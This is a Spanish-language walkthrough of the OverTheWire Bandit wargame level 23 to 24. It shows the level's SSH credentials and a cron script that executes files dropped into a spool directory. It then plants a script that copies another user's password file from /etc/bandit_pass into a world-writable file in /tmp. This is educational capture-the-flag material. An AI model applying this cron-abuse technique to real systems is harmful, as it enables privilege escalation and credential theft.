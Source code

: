 # Bandit Level 23 -> Level 24



## objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
**ssh bandit23@bandit.labs.overthewire.org -p 2220**
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G


## solucion
```bash()
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$  cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/kd
bandit23@bandit:~$  cd /tmp/kd
bandit23@bandit:/tmp/kd$  echo "cat /etc/bandit_pass/bandit24 >
/tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh 
cat /etc/bandit_pass/bandit24 >
/tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$  touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 2981 root     root     106496 Feb 28 18:26 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:25 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 18:24 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 2981 root     root     106496 Feb 28 18:26 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:25 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 18:24 script.sh
bandit23@bandit:/tmp/kd$ date
Tue Feb 28 06:26:35 PM UTC 2023
bandit23@bandit:/tmp/kd$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 2981 root     root     106496 Feb 28 18:26 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:25 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 18:24 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/kd$ exit
```

## Notas adicionales
| comando | descripcion
| cat | demuestra el contenido de un archivo |
| ls | demeuestra la lista de contenidos del directorio|
|ls -la | usamos un formato de lista mas detallado que no ignora entradas empezando con '.' |
|mkdir | permite al usuario crear directorios (también denominados carpetas en algunos sistemas operativos). |
| cd | se usa para cambiar el directorio de trabajo actual (es decir, en el que está trabajando el usuario actual). El "cd" significa "cambiar de directorio". |
| chmod | El comando chmod de Linux se usa para cambiar los permisos de acceso de archivos y directorios. Significa "Change mode" o modo de cambio. No puede cambiar el permiso de enlaces simbólicos. Incluso, ignora los enlaces simbólicos que se encuentran en el recorrido recursivo del directorio. |
| touch | El comando touch actualiza los tiempos de acceso y modificación de cada archivo especificado por el parámetro Archivo de cada directorio especificado por el parámetro Directorio. |


## Referencias
[[https://www.geeksforgeeks.org/practical-applications-ls-command-linux/|Referencia del comando ls]]
[[https://www.geeksforgeeks.org/cat-command-in-linux-with-examples/|Referencia del comando cat]]
[[https://www.geeksforgeeks.org/mkdir-command-in-linux-with-examples/|Link para el comando Mkdir]]
[[https://www.javatpoint.com/linux-cd#:~:text=Linux%20cd%20command%20is%20used,commands%20in%20the%20Linux%20terminal.|Link para comando cd]]
[[https://www.javatpoint.com/linux-chmod-command#:~:text=Linux%20chmod%20command%20is%20used,come%20across%20recursive%20directory%20traversal.|Link del comando chmod]]
[[https://www.ibm.com/docs/pl/aix/7.1?topic=t-touch-command|Link para el comando touch]]
[[https://overthewire.org/wargames/bandit/bandit24.html|Link del nivel 23 al 24]]




